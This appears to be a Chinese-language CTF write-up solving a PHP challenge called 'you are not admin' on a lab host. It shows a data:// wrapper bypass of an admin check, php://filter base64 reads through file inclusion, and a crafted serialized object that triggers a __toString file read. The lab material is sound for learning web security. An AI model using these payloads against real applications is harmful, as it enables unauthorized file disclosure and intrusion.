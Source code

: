 # 04.you are not admin

1. 浏览器查看页面源代码：

   ```php
   you are not admin !
   <!--
    $user = $_GET["user"];
    $file = $_GET["file"];
    $pass = $_GET["pass"];

    if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
        echo "hello admin!<br>";
        include($file); //class.php
    }else{
        echo "you are not admin ! ";
    }
   -->
   ```

2. 源代码提示，只要 `$user` 参数合理设置，可触发 `include($file); //class.php` 。构造 payload ：`user=data:text/plain,the user is admin`，即访问 URL ：`http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin`，可观察到页面输出已变为：_hello admin!_ ，说明可成功触发 `include($file);` 。

3. 根据源代码的提示，似乎 `$file` 参数应设置为 `class.php` 。尝试构造 payload ：`file=class.php` ，执行后页面输出不变。尝试读取 `class.php` 文件的内容，构造 payload ：`file=php://filter/convert.base64-encode/resource=class.php`，即访问 URL ：`http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=php://filter/convert.base64-encode/resource=class.php` ，执行结果中 `class.php` 文件内容经 _[base64 解码](../../misc/base64.md)_ 后为：

   ```php
   <?php
    class Read{//f1a9.php
        public $file;
        public function __toString(){
            if(isset($this->file)){
                echo file_get_contents($this->file);
            }
            return "__toString was called!";
        }
    }
   ?>
   ```

4. 根据上述源代码提示，可能存在文件 `f1a9.php` ，尝试构造 payload ：`file=f1a9.php` ，执行后页面没输出有价值信息。尝试读取 `f1a9.php` 文件的内容，构造 payload ：`file=php://filter/convert.base64-encode/resource=f1a9.php` ，执行后页面也没输出有价值信息。

5. 考虑先读取 `index.php` 文件的内容，构造 payload ：`file=php://filter/convert.base64-encode/resource=index.php` ，即访问 URL ：`http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=php://filter/convert.base64-encode/resource=index.php` ，执行结果中 `index.php` 文件内容经 _[base64 解码](../../misc/base64.md)_ 后为：

   ```php
   <?php
    error_reporting(0);
    $user = $_GET["user"];
    $file = $_GET["file"];
    $pass = $_GET["pass"];

    if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
        echo "hello admin!<br>";
        if(preg_match("/f1a9/",$file)){
            exit();
        }else{
            include($file); //class.php
            $pass = unserialize($pass);
            echo $pass;
        }
    }else{
        echo "you are not admin ! ";
    }
   ?>
   ```

6. 从上述源代码可见，只要检测到 `$file` 参数包含字符串“f1a9”，程序就直接退出了。但是，如果 `$file` 参数设置为 `class.php` ，则 `class.php` 中的代码会被执行，其中的 `__toString()` 方法会通过 `echo file_get_contents($this->file);` 进行显示输出，同时 `index.php` 包含代码对参数 `$pass` 进行反序列化并显示输出，可见，只要对参数 `$pass` 的内容进行合理构造，利用其被显示输出时触发 `class.php` 中的 `__toString()` 被执行，即可显示输出我们需要的内容。

7. 根据 `class.php` 中的源代码，构造 `class Read` 的一个实例 `$r`，令 `$r.file = "f1a9.php"` , 把 `$r` 序列化，即可作为 `$pass` 参数的值以构造 payload 。为此，在php运行环境中执行以下代码：

   ```php
   class Read{//f1a9.php
        public $file = "f1a9.php";
        public function __toString(){
            if(isset($this->file)){
                echo file_get_contents($this->file);
            }
            return "__toString was called!";
        }
    }
    $r = new Read();
    echo serialize($r);
   ```

    得到 `$r` 序列化后的值：`O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}` ，作为 payload 中 `$pass` 参数的值。

8. 最终构造的 payload 为：

   ```ini
   user=data:text/plain,the user is admin
   file=class.php
   pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
   ```

    即访问 URL ：`http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=class.php&pass=O:4:%22Read%22:1:{s:4:%22file%22;s:8:%22f1a9.php%22;}` ，执行后查看页面源代码，即得答案。
